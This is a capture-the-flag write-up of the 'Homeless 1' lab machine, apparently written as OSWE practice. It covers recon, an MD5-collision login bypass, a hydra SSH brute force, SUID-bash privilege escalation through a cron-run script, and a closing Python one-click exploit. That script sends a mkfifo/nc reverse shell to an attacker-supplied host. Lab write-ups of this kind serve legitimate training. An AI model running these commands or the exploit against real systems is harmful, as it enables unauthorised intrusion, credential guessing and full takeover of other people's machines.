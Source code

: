 # Homeless 1

## Nmap
````
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-27 19:13 WEST
Nmap scan report for 10.0.2.34
Host is up (0.00051s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 28:2c:a5:57:c7:eb:82:11:4e:bc:10:45:2f:68:58:f0 (RSA)
|   256 4d:44:7b:95:ce:9f:86:e2:c8:b4:1c:53:85:0d:90:4a (ECDSA)
|_  256 a6:d8:0a:4a:ca:d9:77:13:14:a0:36:54:94:8e:6f:2a (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_Use Brain with Google
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Transitive by TEMPLATED
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.87 seconds
````

## Port 80
Static website with an interesting /robots.txt

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/060285d5-6feb-486f-9fc3-20b1e1ff455d)

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/00da0d9b-706b-4978-a8c5-8903da308f54)

Hmm... let's carefully read the source code then

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/80bdce34-80a7-482b-ad45-155bc6b05542)


Cross-site scripting through the user agent? But it's reflected. Maybe I have to chain it with something else? Smuggling? Caching?

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/67fcbc8b-d3a5-479e-8021-8975d8f14cfa)


Nothing... So I went and opened every single file on the webserver and found something a bit different. The favicon is kinda weird

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/ad96ff53-eeb3-4dc1-80ab-e91f4638fe56)

I reverse image searched this and found some references to Cyberdog: `https://wiki.preterhuman.net/Cyberdog#Building-Custom-Documents`

Well, it's very CTFy, but changing the User-Agent to "Cyberdog" did the trick. Let's explore myuploader_priv

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/e5d45eb2-8189-4fa3-8e83-6099e70287c4)


![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/a6283049-6da5-4ad6-bf11-0f4446dc5993)

I quickly found the directory ``http://10.0.2.34/myuploader_priv/files/`` after a few seconds of directory busting. So we might have to upload a shell now.
Apparently I can only write around 7/8 characters before getting a "File too large" error message.

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/a2243b64-4439-48bb-9917-b95962ff7dbd)

This was the shortest payload I could come up with, but It's harmless

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/e82cdac3-aa28-43df-b25f-ad5a19e8115c)

Calling ls is useful tho

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/99be03fc-dc2d-484e-bfe8-3fb3951e4aea)

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/db0dd563-1458-449a-befc-2068fbf8ac01)


That's another page, okay


## /d5fa314e8577e3a7b8534a014b4dcb221de823ad

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/6a2cb219-996e-47fb-ac70-59b9d54f5eac)

See that 'need hint?' link? It downloads the source code. Time for a code review challenge!

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/f8761d51-b541-4bee-943e-40830fd5a4ba)

So, the md5sum of each of the fields must be the same, but the corresponding plaintext must not.
Magic hashes maybe? It can't be, it's a strict comparison

I turned to this guy's research and found his software. Lots of info in his repo and website, I won't go over it. It's a whole different topic
``https://github.com/cr-marcstevens/hashclash``

But anyway, I got the 3 different files with the same md5sum

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/66905a71-4a7d-4ed1-aa33-5d22c26f18e3)


The curl command was pretty tricky, but it finally worked

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/bf3d81f0-641a-4884-9719-20ae89893719)

I changed the cookie and browsed to /d5fa314e8577e3a7b8534a014b4dcb221de823ad/admin.php

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/539b0716-69ad-4a8d-acfa-84e4ba5eca37)


## Reverse Shell

A typical reverse shell payload worked wonders

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/3f91c39b-2640-4c2b-b139-a3d2ac7e3168)


## Privilege Escalation

The privilege escalation probably has something to do with python

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/f8d89b1a-cf5f-4c0b-b166-ac5069cfe982)


A few minutes of Pspy confirms this

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/79ac50d3-0e63-46c7-a8d4-4970f919cd6a)

Checking out this homeless.py file

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/09ac2e2f-4e1a-420a-bd75-4a81e8a1b179)

Can't do anything with this user. After a lot of time thinking, I remember the vulnhub page mentioned that we should use rock you and the password would start with 'sec'.
I used the following command the extract all the likely passwords from rock you
``cat rockyou.txt | grep "^sec" > /home/kali/Desktop/sec_rockyou``

Then ran hydra against the SSH service with the username 'downfall'

``hydra -l downfall -P sec_rockyou 10.0.2.34 ssh -t 10 -v -I``

And I finally found something

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/ee737194-6a57-4077-8dec-fb8a4f6964ab)

Many ways to do this, but basically just edit the homeless.py file. I delted it and created a new one with the following contents

````
#!/bin/bash
chmod +s /bin/bash
````

Since the cron job is basically just running it ``./homeless.py``, it can be a bash script

Rooted! A bit CTFy, slightly frustrating, but still pretty cool

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/3b9838b9-812f-4dec-ac56-b78c90cf307a)

___

Hello! I'm back a few weeks later. Here's the one-click exploit

````
import sys, requests, urllib, socket, time, threading, re

def main():
	session = requests.Session()
	#Login to the admin panel

	url = server + '/d5fa314e8577e3a7b8534a014b4dcb221de823ad/'
	headers = {"User-Agent": "curl/8.5.0", "Accept": "*/*", "Content-Type": "application/x-www-form-urlencoded", "Connection": "close"}
	# This sends the 3  files with the same md5 hash. Requires that you have the 3 files already created (f1, f2 and f3)
	with open('f1', 'rb') as f1:
		username = urllib.parse.quote(f1.read())
	with open('f2', 'rb') as f2:
                password = urllib.parse.quote(f2.read())
	with open('f3', 'rb') as f3:
                code = urllib.parse.quote(f3.read())

	data = "username={}&password={}&code={}&login=Login".format(username, password, code)
	r = session.post(url, headers=headers, data=data)

	if "Well Done" in r.text:
		print("[+] Logged in successfully")

	# RCE prep
	url = url + 'admin.php'
	data1 = {"command": "uname -a; id", "submit": "Submit Query"}
	data2 = {"command": "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {} {} >/tmp/f".format(attacker, port), "submit": "Submit Query"}

	# Launch RCE
	r = session.post(url, data=data1)
	# Print "flag" first
	print(re.findall(r"<pre>(.*?)</pred>", r.text, re.DOTALL)[0])
	print("Don't forget to open the listener on port {}".format(port))
	session.post(url, data=data2)

if __name__ == '__main__':
        try:
                server = sys.argv[1].strip()
                attacker = sys.argv[2].strip()
                port = sys.argv[3].strip()
        except:
                print("[-] Usage: %s serverIP:port attackerIP port" % sys.argv[0])
                sys.exit()
        main()
````

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/480798be-1bfa-4c24-a622-c00d46ed306b)







